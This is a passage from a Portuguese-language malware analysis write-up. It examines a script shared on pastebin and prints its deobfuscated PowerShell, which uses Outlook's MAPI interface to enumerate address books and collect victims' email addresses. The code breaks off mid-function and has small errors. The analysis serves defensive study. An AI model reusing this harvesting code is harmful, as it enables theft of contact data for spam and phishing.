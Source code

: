 ### Etapa 3

#### <a name="script-1-roubo-de-enderecos-de-e-mail"></a>Script 1: Roubo de endereços de e-mail

A partir de comentários no grupo, foi compartilhado o suposto script aravés do [pastebin](https://pastebin.com/mZWi1Dtv). Esse script procura atingir certo grau de obfuscação, mas de fato, é bastante simples de revertê-lo apenas renomeando as variáveis, demarcadas por chaves (i.e.: ${var}).

Quando renomeamos as variaveis e funções, fica clara a execução do script e intenção do ataque:

```
Add-Type -assembly 'Microsoft.Office.Interop.Outlook'
$OutlookApp = New-Object -comobject Outlook.Application
$OutlookAppMAPI = $OutlookApp.GetNameSpace('MAPI')
$GlobalList = [System.Collections.ArrayList]@()

function IsStrInAlphabeth($Str)
{
  $Alphabeth = '^[_a-z0-9-]+(\.[_a-z0-9-]+)*@[a-z0-9-]+(\.[a-z0-9-]+)*(\.[a-z]{2,4})$';
  if ($Str -match $Alphabeth) {
    return $true
  }
  return $false
}

function AddAddressInGlobalList($Address) {
  if ($Address) {
    $IsAddressInGlobalList = $false
    $Address = $Address.ToLower()
    if ($Address.StartsWith("'") -And $Address.EndsWith("'")) {
      $Address = $Address.Substring(1, $Address.Length - 2)
    }
    if (IsStrInAlphabeth($Address)) {
      for($i = 0; $i -lt $GlobalList.Count; $i++) {
        if ($GlobalList[$$i] -eq $Address) {
          $IsAddressInGlobalList = $true
          break
        }
      }
      if (-Not $IsAddressInGlobalList) {
        $AddedEntry = $GlobalList.Add($Address)
      }
    }
  }
}

function GetOutlookContactList {
  $AddressLists = $OutlookAppMAPI.AddressLists
  for($i = 1; $i -le $AddressLists.Count; $i++) {
    $AddressEntry = $AddressLists.Item($i).AddressEntries
    for($j = 1; $j -le $AddressEntries.Count; $j++) {
      $AddressEntry = $AddressEntries.Item($j)
      $AddressEntryUserType = $AddressEntry.AddressEntriesUserType
      $Address = ""
      if ($AddressEntryUserType -eq 10) {
        $Address = $AddressEntry.Address
      } elseif (($AddressEntryUserType -eq 3) -Or ($AddressEntryUserType -eq 1) -Or ($AddressEntryUserType -eq 4) -Or ($AddressEntryUserType -eq 2) -Or ($AddressEntryUserType -eq 5) -Or ($AddressEntryUserType -eq 0)) {
        $Address = $AddressEntry.GetExchangeUser().PrimarySmtpAddress
      }
      AddAddressInGlobalList($Address)
    }
```

[^1]: Caso tenha alguma correção ou informação adicional, pode me enviar em cpuodzius@fireshellsecurity.team que farei as devidas alterações no post.